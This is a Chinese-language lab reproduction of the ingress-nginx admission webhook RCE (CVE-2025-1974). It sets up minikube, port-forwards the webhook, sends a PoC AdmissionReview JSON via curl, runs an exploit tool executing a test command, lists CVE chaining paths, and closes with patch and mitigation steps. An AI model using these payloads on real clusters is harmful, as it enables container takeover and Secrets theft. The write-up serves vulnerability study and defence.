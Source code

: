 # Kubernetes Ingress-nginx admission 远程代码执行漏洞 CVE-2025-1974

## 漏洞描述

Ingress-nginx 是 Kubernetes 集群内服务对外暴露的访问接入点，用于承载集群内服务访问流量。其小于 1.12.1 的旧版本中，Kubernetes Ingress-nginx admission 控制器存在一个配置注入漏洞，已获取集群网络访问权限的远程攻击者，可以通过 `ValidatingAdmissionWebhook` 提交一个配置文件进行验证，并在配置文件中插入恶意配置，实现远程代码执行，导致 Ingress-nginx 所在容器被攻击者控制，并可能导致集群内的 Secrets 泄漏。

参考链接：

- https://github.com/kubernetes/kubernetes/issues/131009
- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-1974
- https://github.com/sandumjacob/IngressNightmare-POCs
	- CVE-2025-24513: [kubernetes/kubernetes#131005](https://github.com/kubernetes/kubernetes/issues/131005)
	- CVE-2025-24514: [kubernetes/kubernetes#131006](https://github.com/kubernetes/kubernetes/issues/131006)
	- CVE-2025-1097: [kubernetes/kubernetes#131007](https://github.com/kubernetes/kubernetes/issues/131007)
	- CVE-2025-1098: [kubernetes/kubernetes#131008](https://github.com/kubernetes/kubernetes/issues/131008)
	- CVE-2025-1974: [kubernetes/kubernetes#131009](https://github.com/kubernetes/kubernetes/issues/131009)
- https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities

## 漏洞影响

```
Ingress-nginx < v1.11.0
Ingress-nginx v1.11.0 - 1.11.4
Ingress-nginx v1.12.0
```

## 环境搭建

安装 minikube 和 kubectl：

- [minikube](https://minikube.sigs.k8s.io/docs/start/)
- [kubectl](https://kubernetes.io/docs/reference/kubectl/)

启动 minikube，本环境的 minikube、kubectl、Kubernetes Server 版本如下：

```
minikube version
-----
minikube version: v1.33.1
commit: 5883c09216182566a63dff4c326a6fc9ed2982ff
```

```
kubectl version
-----
Client Version: v1.30.1
Kustomize Version: v5.0.4-0.20230601165947-6ce0bf390ce3
Server Version: v1.30.0
```

下载 Kubernetes Ingress-nginx 1.11.3 的 [deploy.yaml](https://github.com/kubernetes/ingress-nginx/blob/f6456ea86c6c330e7cf401ade70ce1faa757265b/deploy/static/provider/cloud/deploy.yaml)，通过 kubectl 部署资源：

```
kubectl apply -f deploy.yaml
```

部署完成后，可执行以下命令查看 ingress-nginx 命名空间中的 pod：

```
kubectl get pods -n ingress-nginx
-----
NAME                                        READY   STATUS      RESTARTS   AGE
ingress-nginx-admission-create-jmw9x        0/1     Completed   0          24m
ingress-nginx-admission-patch-jbxj6         0/1     Completed   1          24m
ingress-nginx-controller-869748796c-p4jvj   1/1     Running     0          24m
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250413172307109.png)

## 漏洞复现

查看 webhook 服务器信息，显示服务器正在监听 8443 端口：

```
kubectl describe pod ingress-nginx-controller-869748796c-p4jvj -n ingress-nginx
-----
--validating-webhook=:8443
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250413172648584.png)

使用端口转发访问 webhook 端口：

```
kubectl port-forward -n ingress-nginx ingress-nginx-controller-869748796c-p4jvj 1337:8443
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250413172813574.png)

此时，我们已将易受攻击的 webhook 服务器从 pod 转发到本地机器的本地端口 1337。执行 [poc](https://github.com/sandumjacob/IngressNightmare-POCs)，发送包含 nginx 配置的 AdmissionRequest：

```
curl --insecure -v -H "Content-Type: application/json" --data @poc.json https://localhost:1337/fake/path
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250413173013506.png)

查看日志，以确保执行成功：

```
kubectl logs ingress-nginx-controller-869748796c-p4jvj -n ingress-nginx
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250413173205563.png)

CVE-2025-1974 可以与其他漏洞组合利用：

- CVE-2025-1974 + CVE-2025-24514 → auth-url injection → RCE
- CVE-2025-1974 + CVE-2025-1097 → auth-tls-match-cn injection → RCE
- CVE-2025-1974 + CVE-2025-1098→ mirror UID injection → RCE

本地测试，将端口转发到 `localhost`：

```
kubectl port-forward svc/ingress-nginx-controller -n ingress-nginx 8080:80
kubectl port-forward -n ingress-nginx svc/ingress-nginx-controller-admission 8443:443
```

执行命令 `touch /tmp/awesome_poc`：

```
./exp -m c -c 'touch /tmp/awesome_poc' -i https://localhost:8443/networking/v1/ingresses -u http://localhost:8080/fake/addr
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250414173754627.png)

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250414173824804.png)

## 漏洞 POC

poc.json

```json
{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "request": {
    "kind": {
      "group": "networking.k8s.io",
      "version": "v1",
      "kind": "Ingress"
    },
    "resource": {
      "group": "",
      "version": "v1",
      "resource": "namespaces"
    },
    "operation": "CREATE",
    "object": {
      "metadata": {
        "name": "deads",
        "annotations": {
            "nginx.ingress.kubernetes.io/mirror-host": "test"
        }
      },
      "spec": {
        "rules": [
        {
            "host": "jacobsandum.com",
            "http": {
            "paths": [
                {
                "path": "/",
                "pathType": "Prefix",
                "backend": {
                    "service": {
                    "name": "kubernetes",
                    "port": {
                        "number": 80
                    }
                    }
                }
                }
            ]
            }
        }
        ],
        "ingressClassName": "nginx"
      }
    }
  }
}
```

## 漏洞修复

- 更新至 1.11.5 或 1.12.1 及其以上版本。
- 确保 admission webhook 端点没有暴露在外。

缓解措施：

- 使用 `controller.admissionWebhooks.enabled=false` 参数重新安装 ingress-nginx；
- 删除名为 `ingress-nginx-admission` 的 `ValidatingWebhookConfiguration` ，并从 `ingress-nginx-controller` 容器的 Deployment 或 DaemonSet 中删除 `--validating-webhook` 参数。
